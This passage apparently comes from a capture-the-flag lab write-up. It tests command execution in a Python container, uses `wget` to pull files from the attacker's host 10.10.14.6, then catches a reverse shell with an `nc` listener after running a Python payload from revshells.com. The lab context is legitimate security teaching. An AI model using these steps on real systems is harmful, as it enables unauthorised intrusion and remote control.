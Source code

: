 That’s an odd `id` output. `whoami` returns:

```

whoami: unknown uid 1337

```

It seems I’m running as an unknown user.

“Execute Command (background)” doesn’t return anything, and the button stays disabled until I refresh the page.

Trying to run `ping` returns an error that it can’t run without root:

```

PING 10.10.14.6 (10.10.14.6): 56 data bytes
ping: permission denied (are you root?)

```

`curl` isn’t on the box, but `wget` is. When I send `wget 10.10.14.6`, there’s a request at my Python webserver, and then the response says:

```

Connecting to 10.10.14.6 (10.10.14.6:80)
wget: can't open 'index.html': Permission denied

```

That implies that the current user doesn’t have write permissions in the current directory. I’ll try changing the output to different directories, but it always fails. Interestingly, if I try to save it as a name without an extension, it does work:

```

Connecting to 10.10.14.6 (10.10.14.6:80)
saving to '/tmp/index'
index                100% |********************************|   532  0:00:00 ETA
'/tmp/index' saved

```

#### Shell

I can get a shell in the container. I used the `alpine-python:latest` container, which means there is Python. `python` isn’t in the path, but `python3` is. I’ll generate a “Python3 #2” reverse shell from [revshells.com](https://www.revshells.com/), and run it as as a background command. It connects back, with some odd chacters but otherwise working fine:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.184 41814
/ $ ^[[49;5Rpwd
/
/ $ ^[[49;5Rls
bin      home     media    proc     sbin     tmp
dev      lib      mnt      root     srv      usr
etc      logfile  opt      run      sys      var
console?prompt=/%20$%20^[[49;5R

```
